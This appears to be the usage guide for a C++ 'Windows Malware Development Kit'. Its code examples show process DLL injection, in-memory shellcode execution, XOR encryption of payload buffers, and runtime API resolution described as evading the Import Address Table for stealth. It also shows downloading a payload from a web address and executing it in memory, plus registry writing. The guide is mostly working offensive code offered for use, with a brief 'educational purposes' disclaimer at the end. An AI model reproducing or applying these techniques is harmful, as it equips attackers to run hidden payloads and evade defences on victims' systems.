 # Windows Malware Development Kit (MDK) - Usage Guide

The **Windows Malware Development Kit (MDK)** provides a framework for interacting with Windows processes, memory, hashing, and the Windows registry. This guide covers the core functionality of the framework with practical examples.

### API Evasion
MDK directly resolves API calls instead of linking them at compile-time, preventing them from appearing in the Import Address Table (IAT). This allows for stealthier execution by dynamically locating and invoking functions at runtime.

---

## Installation
Ensure you have the required dependencies set up before using MDK.

```cpp
#include <mdk.h>
```

Link against the necessary libraries when compiling your project.

## Features & Usage

### 1. Process Management
MDK allows interacting with Windows processes and their threads.

#### Example:
```cpp
// Create a new process object
auto process = mdk::process("notepad.exe");

// Access process attributes
process.handle;
process.pid;
process.threads();

// Enumerate process threads
for (mdk::thread thread : process.threads())
{
    // Access thread attributes
    thread.handle;
    thread.tid;
}
```

### 2. DLL Injection and API Calls
MDK supports DLL injection and dynamic function resolution.

#### Example:
```cpp
// Create a new process
auto notepad = mdk::process("Notepad.exe");

// Load a DLL
auto dll = mdk::dll("kernel32.dll");

// Inject the DLL into the process
notepad.inject(&dll);

// Load user32.dll
auto dll = mdk::dll("user32.dll");

// Locate and execute MessageBoxW
(*(void(*)(int, LPCSTR, LPCSTR, int)) dll.find("MessageBoxW"))(0, "Injected Message", "MDK Example", 0);

// Call MessageBoxA from user32.dll (simplifies the above)
dll.call<void>("MessageBoxA", 0, "Injected Message", "MDK Example", 0);

// Same as above but with explicit typing
dll.call<VOID, INT, LPCSTR, LPCSTR, INT>("MessageBoxA", 0, "Injected Message", "MDK Example", 0);

// DLL attributes
dll.handle;
dll.name;
dll.size;
```

### 3. Memory Buffers
MDK provides various buffer management functionalities.

#### Example:
```cpp
// Create buffers with different initialization states
auto i = mdk::buffer();       // Single-byte buffer
auto ii = mdk::buffer(32);    // 32-byte uninitialized buffer

// Create a buffer with predefined data
unsigned char shellcode[12] = "\x48\x65\x6C\x6C\x6F\x20\x57\x6F\x72\x6C\x64";
auto buf = mdk::buffer(&shellcode, 12); // 12-byte initialized buffer

// Access buffer attributes
buf.file;    // Memory-mapped file
buf.handle;
buf.size;

// Execute the buffer in memory
buf.execute();
```

### 4. Encryption and Hashing
MDK allows encrypting buffers using built-in algorithms.

#### Example:
```cpp
// Create an XOR encryption algorithm with a 32-byte key
auto algorithm = mdk::hash::xor_(32);

// Encrypt the buffer in memory
buf.encrypt(&algorithm);
```

### 5. Internet Payload Downloading
MDK enables downloading and executing payloads directly in memory.

#### Example:
```cpp
// Create an internet handler
auto internet = mdk::internet();

// Download payload into a buffer
auto buffer = internet.download("http://example.com/payload", 512);

// Execute the downloaded buffer
buffer.execute();

// Internet attributes
internet.handle;
```

### 6. Registry Manipulation
MDK enables reading and writing to the Windows registry.

#### Example:
```cpp
// Define a buffer containing data to write
unsigned char data[] = "MDK Registry Example";
auto buffer = mdk::buffer(data, sizeof(data));

// Open a registry key
auto registry = mdk::registry(HKEY_CURRENT_USER, "Software\Example");

// Write data to the registry
registry.set("ExampleKey", &buffer);

// Retrieve a registry value
mdk::buffer result = registry.get("Desktop", "Wallpaper");
```

### 7. Static Library Access
MDK statically defines commonly used libraries for minimal memory overhead.

#### Example:
```cpp
// Access predefined libraries
mdk::nt().kernel32;
mdk::nt().wininet;
mdk::nt().advapi32;

// Example: Call GetProcessVersion via kernel32
auto version = mdk::nt().kernel32.call<DWORD>("GetProcessVersion", 0);
```

## Disclaimer
This framework is provided for educational and research purposes **only**. Unauthorized usage for malicious intent is strictly prohibited.

